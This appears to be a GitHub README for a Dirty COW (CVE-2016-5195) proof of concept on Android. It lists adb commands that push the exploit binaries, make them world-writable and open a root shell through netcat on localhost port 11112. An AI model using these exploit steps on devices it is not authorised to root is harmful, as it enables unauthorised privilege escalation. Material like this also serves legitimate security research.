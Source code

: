 # limited_shell_root

limited_shell_root CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

How to use.

Once compiled


adb push dirtycow /data/local/tmp/dirtycow
adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32
adb shell chmod 0777 /data/local/tmp/*

adb shell
toybox nc localhost 11112

Shell is now active type ls
